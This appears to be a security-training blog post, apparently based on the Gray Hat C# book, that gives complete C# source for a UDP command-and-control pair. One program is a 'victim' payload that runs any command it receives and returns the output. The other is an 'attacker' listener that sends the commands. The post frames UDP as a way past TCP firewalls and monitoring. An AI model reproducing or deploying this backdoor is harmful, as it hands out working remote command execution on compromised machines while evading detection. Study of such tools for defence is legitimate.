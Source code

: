 ```yaml
---
title: Creating a UDP payload and a listener to implement a UDP remote connection as an alternate channel of communication. 
date: 2021-07-09 12:50:47 +07:00
categories: greyhatcch4
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a UDP listener and payload.
---
```


## We write a program to create a UDP payload and a listener to implement a UDP remote connection as an alternate channel of communication.

- UDP payloads/listeners can be used as an alternate channel of communication in monitored environments and are not heavily scrutinized. It is a connectionless protocol with no overhead to ensure deliverability hence it is blazingly fast.

- We use the UdpClient and Socket classes over UDP. 

- Both the attacker and victim machines will need to listen for UDP broadcasts as well as maintain a socket to broadcast data to another computer.

- The code on the target machine will listen on a UDP port for commands, execute them and return the output to the attacker's UDP socket, while the attacker maintains a listener and socket to execute pass these commands.

## CODE:

### UDP Payload -->

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

// UDP payloads are used as an alternative to hosts that are heavily TCP firewalled, wherein both the target and attacker maintain a listening socket to broadcast data to each other.

namespace UDP_payload
{
    public class MainClass
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Runnning UDP payload on port: " + args[0]);
            int lport = int.Parse(args[0]);
            using (UdpClient listener = new UdpClient(lport))
            {
                // Local Endpoint
                IPEndPoint localEP = new IPEndPoint(IPAddress.Any, lport);
                string cmd;
                byte[] input;

                // Recieving data from broadcasts, loops continiously until an empty string is recieved; Also blocks exec until a broadcast is recieved.
                while (true)
                {
                    // Recieve fills localEP address property with attackers IP and other connection info
                    input = listener.Receive(ref localEP);
                    cmd = Encoding.ASCII.GetString(input, 0, input.Length);
                    if (string.IsNullOrEmpty(cmd))
                    {
                        listener.Close();
                        return;
                    }

                    if (string.IsNullOrWhiteSpace(cmd))
                        continue;
                    string[] split = cmd.Trim().Split(' ');
                    string filename = split.First();
                    string arg = string.Join(" ", split.Skip(1));
                    string results = string.Empty;

                    // Executing the cmd and returning result to the sender
                    try
                    {
                        // Start local process
                        Process prc = new Process();
                        // Adding additional properties the the Process class
                        prc.StartInfo = new ProcessStartInfo();
                        prc.StartInfo.FileName = filename;
                        prc.StartInfo.Arguments = arg;
                        prc.StartInfo.UseShellExecute = false;
                        prc.StartInfo.RedirectStandardOutput = true;
                        prc.Start();
                        // Wait until process exits
                        prc.WaitForExit();
                        results = prc.StandardOutput.ReadToEnd();
                    }
                    catch
                    {
                        results = "[!] There was an error running the following command: " + filename + "\t" + arg;
                    }
                    //Creating UDP socket
                    using (Socket sock = new Socket(AddressFamily.InterNetwork,
                        SocketType.Dgram, ProtocolType.Udp))
                    {
                        IPAddress sender = localEP.Address;
                        // Creating new endpoint using senders IP
                        IPEndPoint remoteEP = new IPEndPoint(sender, lport);
                        byte[] resultBytes = Encoding.ASCII.GetBytes(results);
                        sock.SendTo(resultBytes, remoteEP);
                    }
                }

            }

        }
    }
}
```

### UDP Listener -->

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace UDP_listener
{
    public class MainClass
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Running UDP client/listener");
            int lport = int.Parse(args[1]);
            using (UdpClient listener = new UdpClient(lport))
            {
                // Create local listener endpoint at 0.0.0.0 at specified port
                IPEndPoint localEP = new IPEndPoint(IPAddress.Any, lport);
                string output;
                byte[] bytes;

                // Creating variables to send UDP Broadcasts
                using (Socket sock = new(AddressFamily.InterNetwork, SocketType.Dgram, ProtocolType.Udp))
                {
                    // Convert to IPaddrs type Class
                    IPAddress addr = IPAddress.Parse(args[0]);
                    IPEndPoint addrEP = new IPEndPoint(addr, lport);

                    // Communicating with the target
                    Console.WriteLine("[+] Enter a command to send, or a blank line to quit");
                    while (true)
                    {
                        // Read cmd from std i/p
                        string command = Console.ReadLine();
                        byte[] buff = Encoding.ASCII.GetBytes(command);

                        try
                        {
                            sock.SendTo(buff, addrEP);

                            if (string.IsNullOrEmpty(command))
                            {
                                sock.Close();
                                listener.Close();
                                return;
                            }

                            if (string.IsNullOrWhiteSpace(command))
                                continue;

                            bytes = listener.Receive(ref localEP);
                            output = Encoding.ASCII.GetString(bytes, 0, bytes.Length);
                            Console.WriteLine(output);
                        }
                        catch (Exception ex)
                        {
                            Console.WriteLine("[!] Exception{0}", ex.Message);
                        }
                    }
                }
            }
        }
    }
}
```


## OUTPUT:

### Attacker -->

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch4/UDP%20payload/udp_listener.png)

### Target Victim -->

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch4/UDP%20payload/udp_payload.png)